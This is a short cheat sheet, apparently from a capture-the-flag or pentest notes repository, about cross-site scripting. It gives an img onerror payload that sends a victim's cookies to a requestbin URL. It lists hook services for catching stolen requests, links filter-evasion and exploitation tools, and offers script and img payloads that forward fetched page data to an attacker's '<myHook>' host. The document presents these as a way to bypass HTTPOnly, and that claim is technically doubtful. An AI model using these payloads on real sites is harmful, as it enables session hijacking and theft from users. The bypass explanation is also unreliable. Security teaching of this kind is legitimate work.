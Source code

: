 The **XSS** vulnerability occurs when a user can control the content of a web page. A malicious code can be used to steal cookies of authentified users, redirect the user to a malicious site, or even execute arbitrary code on the user's machine.

Exemple of XSS :

```html
<img src="#" onerror="document.location='http://requestbin.fullcontact.com/168r30u1?c' + document.cookie">
```

These sites can be used to create hooks to catch HTTP requests:

| Site |
| --- |
| [`requestb.in`](https://requestb.in/) |
| [`hookbin.com`](https://hookbin.com/) |


* [XSS Cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

* Filter Evasion

	[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) can be used to bypass XSS filters.

* `HTTPOnly` cookie flag

	When the `HTTPOnly` flag is set, the cookie is not accessible by JavaScript. This can be bypassed by using the target's browser as a proxy to recieve the cookie when it is sent to the victim's browser:

	```html
	<!-- With the script tag -->
	<script>
	fetch("https://target-site.url/")
	.then((data) => fetch("https://<myHook>/?/=".concat(JSON.stringify(data)), { credentials: 'include' }));
	</script>

	<!-- With an image -->
	<img src="https://target-site.url/" onerror="fetch('https://<myHook>/?/='+JSON.stringify(this), { credentials: 'include' })">
	```



* [XSStrike](https://github.com/UltimateHackers/XSStrike)

	A python CLI tool for XSS detection and exploitation.
